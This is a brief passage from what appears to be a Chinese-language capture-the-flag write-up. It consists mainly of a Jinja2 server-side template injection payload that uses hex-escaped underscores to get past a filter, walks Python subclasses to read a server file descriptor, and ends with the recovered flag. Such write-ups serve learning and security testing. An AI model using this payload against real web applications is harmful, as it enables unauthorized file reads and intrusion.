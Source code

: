 构造payload

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```



![image-20210429132030587](https://tva1.sinaimg.cn/large/008i3skNly1gq0s4s3285j30m208i74u.jpg)



**flag{fde38292-447d-4518-8242-86df7f047333}**
